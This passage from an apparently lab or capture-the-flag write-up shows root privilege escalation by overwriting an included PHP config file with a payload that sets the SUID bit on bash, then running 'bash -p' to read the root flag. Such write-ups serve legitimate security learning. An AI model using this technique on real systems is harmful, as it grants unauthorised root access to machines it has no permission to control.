 We verify that `/opt/website-monitor/monitor.php` includes any files from `config`:

```
cat /opt/website-monitor/monitor.php | grep config

include('config/configuration.php');
```

We overwrite `config/configuration.php` with a payload to grant `SUID` permissions to `bash`.

This will be the new contents of the file.

```
<?php
    define('PATH', '/opt/website-monitor');
    system('chmod u+s /usr/bin/bash');
?>
```

We overwrite it:

```
echo -e "<?php\ndefine('PATH', '/opt/website-monitor');\nsystem('chmod u+s /usr/bin/bash');\n?>" > configuration.php
```

Now, we can escalate privileges:

```
bash -p
```

We navigate to the `/root` directory and retrieve the `root` flag:

```
cd /root
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.